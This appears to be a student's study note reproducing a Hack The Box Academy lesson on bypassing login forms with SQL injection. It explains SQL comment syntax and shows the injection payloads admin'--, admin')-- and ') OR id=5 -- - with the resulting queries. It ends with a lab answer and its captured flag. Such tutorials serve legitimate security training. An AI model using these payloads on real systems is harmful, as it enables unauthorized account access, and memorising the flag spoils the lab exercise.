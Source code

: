 ```yaml
---
sticker: lucide//database
aliases:
  - "🎯 Mastering SQL Injection: Bypassing Logins with Comments 🕶️"
---
```

In this section we will learn how to use comments to subvert the logic of more advanced SQL queries and end up with a working SQL query to bypass the login authentication process.

---

## Comments

Just like any other language, SQL allows the use of comments as well. Comments are used to document queries or ignore a certain part of the query. We can use two types of line comments with MySQL `--` and `#`, in addition to an in-line comment `/**/` (though this is not usually used in SQL injections). The `--` can be used as follows:



```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

Note: In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with (-- ), with a space at the end. This is sometimes URL encoded as (--+), as spaces in URLs are encoded as (+). To make it clear, we will add another (-) at the end (-- -), to show the use of a space character.

The `#` symbol can be used as well.


```shell-session
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'

+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
1 row in set (0.00 sec)
```

Tip: if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.

The server will ignore the part of the query with `AND password = 'something'` during evaluation.

---

## Auth Bypass with comments

Let us go back to our previous example and inject `admin'--` as our username. The final query will be:


```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

As we can see from the syntax highlighting, the username is now `admin`, and the remainder of the query is now ignored as a comment. Also, this way, we can ensure that the query does not have any syntax issues.

Let us try using these on the login page, and log in with the username `admin'--` and anything as the password:

![admin_dash](https://academy.hackthebox.com/storage/modules/33/admin_dash.png)

As we see, we were able to bypass the authentication, as the new modified query checks for the username, with no other conditions.

---

## Another Example

SQL supports the usage of parenthesis if the application needs to check for particular conditions before others. Expressions within the parenthesis take precedence over other operators and are evaluated first. Let us look at a scenario like this:

![paranthesis_fail](https://academy.hackthebox.com/storage/modules/33/paranthesis_fail.png)

The above query ensures that the user's id is always greater than 1, which will prevent anyone from logging in as admin. Additionally, we also see that the password was hashed before being used in the query. This will prevent us from injecting through the password field because the input is changed to a hash.

Let us try logging in with valid credentials `admin / p@ssw0rd` to see the response.

![paranthesis_valid_fail](https://academy.hackthebox.com/storage/modules/33/paranthesis_valid_fail.png)

As expected, the login failed even though we supplied valid credentials because the admin’s ID equals 1. So let us try logging in with the credentials of another user, such as `tom`.

![tom_login](https://academy.hackthebox.com/storage/modules/33/tom_login.png)

Logging in as the user with an id not equal to 1 was successful. So, how can we log in as the admin? We know from the previous section on comments that we can use them to comment out the rest of the query. So, let us try using `admin'--` as the username.

![paranthesis_error](https://academy.hackthebox.com/storage/modules/33/paranthesis_error.png)

The login failed due to a syntax error, as a closed one did not balance the open parenthesis. To execute the query successfully, we will have to add a closing parenthesis. Let us try using the username `admin')--` to close and comment out the rest.

![paranthesis_success](https://academy.hackthebox.com/storage/modules/33/paranthesis_success.png)

The query was successful, and we logged in as admin. The final query as a result of our input is:


```sql
SELECT * FROM logins where (username='admin')
```

The query above is like the one from the previous example and returns the row containing admin._

![Success!](https://academy.hackthebox.com/storage/modules/33/paranthesis_success.png)  
 
# Question
---

![](Pasted%20image%2020250131152753.png)

We can use the following:

`') OR id=5 -- -`

```ad-summary
### **Explanation**

1. **`')`**:
    
    - Closes the existing parenthesis around `username=''`.
        
    - Balances the query syntax: `(username='') OR id=5`.
        
2. **`OR id=5`**:
    
    - Forces the query to return the user with `id=5`.
        
3. **`-- -`**:
    
    - Comments out the rest of the query (`AND id > 1` and password check).
        
    - Ensures no syntax errors from leftover clauses.
```

![](Pasted%20image%2020250131152847.png)

Now we've logged in and we can see the flag:

![](Pasted%20image%2020250131152904.png)

Flag is: `cdad9ecdf6f14b45ff5c4de32909caec`